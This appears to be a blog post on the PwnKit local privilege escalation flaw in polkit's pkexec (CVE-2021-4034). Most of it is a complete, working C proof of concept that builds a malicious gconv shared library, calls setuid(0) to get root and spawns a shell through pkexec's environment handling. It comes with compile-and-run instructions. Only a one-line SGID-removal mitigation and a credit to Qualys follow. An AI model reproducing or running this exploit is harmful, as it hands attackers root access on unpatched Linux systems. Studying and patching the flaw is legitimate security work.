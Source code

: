 ```yaml
---
title: Polkit's Pkexec CVE-2021-4034
author: Nobel Herrera
date: 2022-03-24 11:11:00 -0400
categories: [CVE, Linux]
tags: [RedTeam, LPE, CVE, Linux]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


This post walks through the PoC and manual patching of the local privilege escalation vulnerability discovered in polkit’s pkexec, dubbed as PwnKit... 

## Contents
---

* [Exploit confirmed on fully patched Ubuntu 21.10](#exploit-confirmed-on-fully-patched-ubuntu-2110)
* [PoC Code](#poc-code)
* [Manual Patching](#manual-patching)
* [Credits](#credits)

---

## Exploit confirmed on fully patched Ubuntu 21.10:
![Format 5](/docs/assets/capture.png)

## PoC Code:
```c
/* Compile: gcc polkit_PoC.c -o PwnKit
* Change perms: chmod +x ./PwnKit
* Profit: ./PwnKit
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
## Manual Patching:
Remove SGID from /usr/bin/pkexec
```shell
cd /usr/bin && sudo chmod 0755 ./pkexec
```
## Credits:
This vulnerability was discovered by the [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).